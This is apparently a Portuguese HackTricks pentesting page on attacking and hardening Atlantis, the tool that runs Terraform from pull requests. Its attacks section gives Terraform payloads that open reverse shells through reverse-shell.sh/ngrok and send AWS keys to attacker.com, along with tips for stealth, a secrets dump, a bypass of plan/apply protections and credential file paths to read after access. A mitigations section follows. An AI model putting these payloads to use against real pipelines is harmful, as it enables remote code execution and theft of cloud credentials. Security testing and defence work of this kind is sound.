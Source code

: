 # Segurança do Atlantis

<details>

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking na GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Informações Básicas

O Atlantis basicamente ajuda você a executar o terraform a partir de Pull Requests do seu servidor git.

![](<../.gitbook/assets/image (161).png>)

## Laboratório Local

1. Acesse a **página de lançamentos do atlantis** em [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) e **baixe** o que mais lhe convier.
2. Crie um **token pessoal** (com acesso ao repositório) do seu usuário **github**
3. Execute `./atlantis testdrive` e ele criará um **repositório de demonstração** que você pode usar para **conversar com o atlantis**
1. Você pode acessar a página da web em 127.0.0.1:4141

## Acesso ao Atlantis

### Credenciais do Servidor Git

O **Atlantis** suporta vários hosts git como **Github**, **Gitlab**, **Bitbucket** e **Azure DevOps**.\
No entanto, para acessar os repositórios nesses plataformas e realizar ações, ele precisa ter algum **acesso privilegiado concedido a eles** (pelo menos permissões de escrita).\
[**A documentação**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) incentiva a criar um usuário nessas plataformas especificamente para o Atlantis, mas algumas pessoas podem usar contas pessoais.

{% hint style="warning" %}
De qualquer forma, do ponto de vista de um atacante, a **conta do Atlantis** será muito **interessante de comprometer**.
{% endhint %}

### Webhooks

O Atlantis usa opcionalmente [**Segredos de Webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) para validar que os **webhooks** que recebe do seu host Git são **legítimos**.

Uma maneira de confirmar isso seria **permitir que as solicitações venham apenas dos IPs** do seu host Git, mas uma maneira mais fácil é usar um Segredo de Webhook.

Observe que, a menos que você use um servidor github ou bitbucket privado, será necessário expor os endpoints de webhook para a Internet.

{% hint style="warning" %}
O Atlantis vai estar **expondo webhooks** para que o servidor git possa enviar informações. Do ponto de vista de um atacante, seria interessante saber **se é possível enviar mensagens**.
{% endhint %}

### Credenciais do Provedor <a href="#provider-credentials" id="provider-credentials"></a>

[A partir da documentação:](https://www.runatlantis.io/docs/provider-credentials.html)

O Atlantis executa o Terraform simplesmente **executando os comandos `terraform plan` e `apply`** no servidor **em que o Atlantis está hospedado**. Assim como quando você executa o Terraform localmente, o Atlantis precisa de credenciais para o seu provedor específico.

Depende de você como você [fornece credenciais](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) para o seu provedor específico ao Atlantis:

* O Chart do Atlantis [Helm](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) e o Módulo [AWS Fargate](https://www.runatlantis.io/docs/deployment.html#aws-fargate) têm seus próprios mecanismos para credenciais do provedor. Leia suas documentações.
* Se você estiver executando o Atlantis em uma nuvem, muitas nuvens têm maneiras de fornecer acesso à API da nuvem para aplicativos em execução nelas, ex:
* [Funções EC2 da AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Procure por "Função EC2")
* [Contas de Serviço de Instância GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Muitos usuários definem variáveis de ambiente, ex. `AWS_ACCESS_KEY`, onde o Atlantis está em execução.
* Outros criam os arquivos de configuração necessários, ex. `~/.aws/credentials`, onde o Atlantis está em execução.
* Use o [Provedor HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) para obter credenciais do provedor.

{% hint style="warning" %}
O **contêiner** onde o **Atlantis** está **em execução** provavelmente **conterá credenciais privilegiadas** para os provedores (AWS, GCP, Github...) que o Atlantis está gerenciando via Terraform.
{% endhint %}

### Página da Web

Por padrão, o Atlantis executará uma **página da web na porta 4141 em localhost**. Esta página apenas permite que você habilite/desabilite o apply do atlantis e verifique o status do plano dos repositórios e desbloqueie-os (não permite modificar coisas, então não é tão útil).

Provavelmente você não a encontrará exposta na internet, mas parece que por padrão **não são necessárias credenciais** para acessá-la (e se forem, `atlantis`:`atlantis` são as **padrão**).

## Configuração do Servidor

A configuração do `atlantis server` pode ser especificada via flags de linha de comando, variáveis de ambiente, um arquivo de configuração ou uma combinação dos três.

* Você pode encontrar [**aqui a lista de flags**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) suportados pelo servidor Atlantis
* Você pode encontrar [**aqui como transformar uma opção de configuração em uma variável de ambiente**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Os valores são **escolhidos nesta ordem**:

1. Flags
2. Variáveis de Ambiente
3. Arquivo de Configuração

{% hint style="warning" %}
Observe que na configuração você pode encontrar valores interessantes como **tokens e senhas**.
{% endhint %}

### Configuração dos Repositórios

Algumas configurações afetam **como os repositórios são gerenciados**. No entanto, é possível que **cada repositório exija configurações diferentes**, então existem maneiras de especificar cada repositório. Esta é a ordem de prioridade:

1. Arquivo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config). Este arquivo pode ser usado para especificar como o atlantis deve tratar o repositório. No entanto, por padrão, algumas chaves não podem ser especificadas aqui sem algumas flags permitindo isso.
1. Provavelmente é necessário permitir por flags como `allowed_overrides` ou `allow_custom_workflows`
2. [**Configuração do Lado do Servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Você pode passá-lo com a flag `--repo-config` e é um yaml configurando novas configurações para cada repositório (regexes suportados)
3. Valores **padrão**
#### Proteções de PR

O Atlantis permite indicar se deseja que o **PR** seja **`aprovado`** por outra pessoa (mesmo que não esteja definido na proteção do branch) e/ou seja **`mesclável`** (proteções do branch aprovadas) **antes de executar o apply**. Do ponto de vista da segurança, é recomendado configurar ambas as opções.

No caso de `allowed_overrides` ser True, essas configurações podem ser **sobrescritas em cada projeto pelo arquivo `/atlantis.yml`**.

#### Scripts

A configuração do repositório pode **especificar scripts** para serem executados [**antes**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) e [**depois**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) da execução de um **workflow**.

Não há opção para permitir **especificar** esses scripts no arquivo **`/atlantis.yml`** do repositório.

#### Workflow

Na configuração do repositório (configuração do lado do servidor) você pode [**especificar um novo fluxo de trabalho padrão**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), ou [**criar novos fluxos de trabalho personalizados**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Você também pode **especificar** quais **repositórios** podem **acessar** os **novos** fluxos de trabalho gerados.\
Em seguida, você pode permitir que o arquivo **atlantis.yaml** de cada repositório **especifique o fluxo de trabalho a ser usado**.

{% hint style="danger" %}
Se a flag [**configuração do lado do servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` estiver definida como **True**, os fluxos de trabalho podem ser **especificados** no arquivo **`atlantis.yaml`** de cada repositório. Também é potencialmente necessário que **`allowed_overrides`** especifique também **`workflow`** para **sobrescrever o fluxo de trabalho** que será utilizado.\
Isso basicamente dará **RCE no servidor Atlantis para qualquer usuário que possa acessar esse repositório**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Verificação de Políticas Conftest

O Atlantis suporta a execução de **políticas** [**conftest**](https://www.conftest.dev/) **no lado do servidor** contra a saída do plano. Casos de uso comuns para usar esta etapa incluem:

* Negar o uso de uma lista de módulos
* Afirmar atributos de um recurso no momento da criação
* Detectar exclusões não intencionais de recursos
* Prevenir riscos de segurança (ou seja, expor portas seguras ao público)

Você pode verificar como configurá-lo na [**documentação**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Comandos do Atlantis

[**Na documentação**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) você pode encontrar as opções que pode usar para executar o Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Ataques

{% hint style="warning" %}
Se durante a exploração você encontrar este **erro**: `Error: Error acquiring the state lock`

Você pode corrigi-lo executando:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Plano de RCE do Atlantis - Modificação de configuração em novo PR

Se você tem acesso de escrita sobre um repositório, você será capaz de criar um novo branch nele e gerar um PR. Se você pode **executar `atlantis plan`** (ou talvez seja executado automaticamente) **você será capaz de RCE dentro do servidor Atlantis**.

Você pode fazer isso fazendo [**o Atlantis carregar uma fonte de dados externa**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Apenas coloque um payload como o seguinte no arquivo `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Ataque mais Furtivo

Você pode realizar este ataque de forma ainda mais furtiva, seguindo estas sugestões:

* Em vez de adicionar o rev shell diretamente no arquivo terraform, você pode **carregar um recurso externo** que contenha o rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Pode encontrar o código rev shell em [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* No recurso externo, use o recurso **ref** para ocultar o **código rev shell do terraform em um branch** dentro do repositório, algo como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Em vez** de criar um **PR para o master** para acionar o Atlantis, **crie 2 branches** (test1 e test2) e crie um **PR de um para o outro**. Quando tiver concluído o ataque, apenas **remova o PR e os branches**.

### Atlantis plan Secrets Dump

Você pode **dump secrets usados pelo terraform** executando `atlantis plan` (`terraform plan`) colocando algo assim no arquivo terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis aplica RCE - Modificação de configuração em novo PR

Se você tem acesso de escrita sobre um repositório, você será capaz de criar um novo branch nele e gerar um PR. Se você pode **executar `atlantis apply`, você será capaz de RCE dentro do servidor Atlantis**.

No entanto, geralmente você precisará contornar algumas proteções:

- **Mergeable**: Se essa proteção estiver configurada no Atlantis, você só pode executar **`atlantis apply` se o PR for mergeable** (o que significa que a proteção de branch precisa ser contornada).
- Verifique possíveis [**burlas de proteção de branch**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Aprovado**: Se essa proteção estiver configurada no Atlantis, algum **outro usuário deve aprovar o PR** antes de você poder executar `atlantis apply`
- Por padrão, você pode abusar do [**token Gitbot para contornar essa proteção**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Executando **`terraform apply` em um arquivo Terraform malicioso com** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Você só precisa garantir que algum payload como os seguintes termine no arquivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Siga as **sugestões da técnica anterior** para realizar esse ataque de uma maneira **mais furtiva**.

### Injeção de Parâmetros no Terraform

Ao executar `atlantis plan` ou `atlantis apply`, o terraform está sendo executado por baixo dos panos, você pode passar comandos para o terraform a partir do atlantis comentando algo como:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Algo que você pode passar são variáveis de ambiente que podem ser úteis para contornar algumas proteções. Verifique as variáveis de ambiente do Terraform em [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Fluxo de Trabalho Personalizado

Executando **comandos de compilação personalizados maliciosos** especificados em um arquivo `atlantis.yaml`. O Atlantis usa o arquivo `atlantis.yaml` do branch de solicitação de pull, **não** do `master`.\
Essa possibilidade foi mencionada em uma seção anterior:

{% hint style="danger" %}
Se a flag de configuração do lado do servidor [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) estiver definida como **True**, fluxos de trabalho podem ser **especificados** no arquivo **`atlantis.yaml`** de cada repositório. Também é potencialmente necessário que **`allowed_overrides`** especifique também **`workflow`** para **sobrescrever o fluxo de trabalho** que será usado.

Isso basicamente dará **RCE no servidor Atlantis para qualquer usuário que possa acessar esse repositório**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Bypassar proteções de plano/aplicação

Se a flag de [**configuração do lado do servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _tiver_ `apply_requirements` configurado, é possível para um repositório **modificar as proteções de plano/aplicação para as bypassar**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Sequestro de PR

Se alguém enviar **comentários `atlantis plan/apply` em suas solicitações de pull válidas,** fará com que o terraform seja executado quando você não quiser.

Além disso, se você não tiver configurado na **proteção de branch** para pedir para **reevaluar** cada PR quando um **novo commit for enviado** para ele, alguém poderia **escrever configurações maliciosas** (ver cenários anteriores) no arquivo de configuração do terraform, executar `atlantis plan/apply` e obter RCE.

Esta é a **configuração** nas proteções de branch do Github:

![](<../.gitbook/assets/image (216).png>)

### Segredo do Webhook

Se você conseguir **roubar o segredo do webhook** usado ou se **não houver nenhum segredo de webhook** sendo usado, você poderia **chamar o webhook do Atlantis** e **invocar comandos do atlantis** diretamente.

### Bitbucket

O Bitbucket Cloud **não suporta segredos de webhook**. Isso poderia permitir que atacantes **falsifiquem solicitações do Bitbucket**. Certifique-se de permitir apenas IPs do Bitbucket.

* Isso significa que um **atacante** poderia fazer **solicitações falsas ao Atlantis** que parecem estar vindo do Bitbucket.
* Se você estiver especificando `--repo-allowlist`, então eles só poderiam falsificar solicitações relacionadas a esses repositórios, então o máximo de dano que poderiam causar seria planejar/aplicar em seus próprios repositórios.
* Para evitar isso, permita [os endereços IP do Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (veja os endereços IPv4 de saída).

## Pós-Exploração

Se você conseguiu acessar o servidor ou pelo menos obteve um LFI, há algumas coisas interessantes que você deve tentar ler:

* `/home/atlantis/.git-credentials` Contém credenciais de acesso ao VCS
* `/atlantis-data/atlantis.db` Contém credenciais de acesso ao VCS com mais informações
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Arquivo de estado do Terraform
* Exemplo: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Variáveis de ambiente
* `/proc/[2-20]/cmdline` Linha de comando do `atlantis server` (pode conter dados sensíveis)

## Mitigações

### Não Use em Repositórios Públicos <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Porque qualquer pessoa pode comentar em solicitações de pull públicas, mesmo com todas as mitigações de segurança disponíveis, ainda é perigoso executar o Atlantis em repositórios públicos sem a configuração adequada das configurações de segurança.

### Não Use `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Se você estiver executando em um repositório público (o que não é recomendado, veja acima), você não deve definir `--allow-fork-prs` (padrão é falso) porque qualquer pessoa pode abrir uma solicitação de pull de seu fork para seu repositório.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

O Atlantis requer que você especifique uma lista de permissões de repositórios dos quais aceitará webhooks via a flag `--repo-allowlist`. Por exemplo:

* Repositórios específicos: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Toda a sua organização: `--repo-allowlist=github.com/runatlantis/*`
* Todos os repositórios em sua instalação do GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Todos os repositórios: `--repo-allowlist=*`. Útil quando você está em uma rede protegida, mas perigoso sem também definir um segredo de webhook.

Esta flag garante que sua instalação do Atlantis não esteja sendo usada com repositórios que você não controla. Veja `atlantis server --help` para mais detalhes.

### Proteger o Planejamento do Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Se atacantes enviando solicitações de pull com código Terraform malicioso estiver em seu modelo de ameaça, você deve estar ciente de que as aprovações de `terraform apply` não são suficientes. É possível executar código malicioso em um `terraform plan` usando a [fonte de dados `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) ou especificando um provedor malicioso. Este código poderia então extrair suas credenciais.

Para evitar isso, você poderia:

1. Incorporar provedores na imagem do Atlantis ou no host e negar a saída em produção.
2. Implementar o protocolo de registro de provedores internamente e negar a saída pública, dessa forma você controla quem tem acesso de gravação ao registro.
3. Modificar a etapa `plan` da [configuração do repositório do lado do servidor](https://www.runatlantis.io/docs/server-side-repo-config.html) para validar contra o uso de provedores ou fontes de dados proibidos ou PRs de usuários não permitidos. Você também poderia adicionar validação extra neste ponto, por exemplo, exigindo um "joinha" na PR antes de permitir que o `plan` continue. Conftest poderia ser útil aqui.

### Segredos do Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

O Atlantis deve ser executado com segredos de webhook definidos via as variáveis de ambiente `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Mesmo com a flag `--repo-allowlist` definida, sem um segredo de webhook, os atacantes poderiam fazer solicitações ao Atlantis se passando por um repositório que está na lista de permissões. Os segredos do webhook garantem que as solicitações do webhook realmente venham do seu provedor de VCS (GitHub ou GitLab).

Se você estiver usando o Azure DevOps, em vez de segredos de webhook, adicione um nome de usuário e senha básicos.

### Autenticação Básica do Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

O Azure DevOps suporta o envio de um cabeçalho de autenticação básica em todos os eventos de webhook. Isso requer o uso de uma URL HTTPS para a localização do seu webhook.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Se você estiver usando segredos de webhook, mas seu tráfego é via HTTP, então os segredos de webhook poderiam ser roubados. Habilite SSL/HTTPS usando as flags `--ssl-cert-file` e `--ssl-key-file`.

### Habilitar Autenticação no Servidor Web do Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

É altamente recomendável habilitar a autenticação no serviço web. Ative o BasicAuth usando `--web-basic-auth=true` e configure um nome de usuário e uma senha usando as flags `--web-username=seuNomeDeUsuário` e `--web-password=suaSenha`.

Você também pode passar essas informações como variáveis de ambiente `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=seuNomeDeUsuário` e `ATLANTIS_WEB_PASSWORD=suaSenha`.

## Referências

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Aprenda e pratique Hacking em AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking em GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
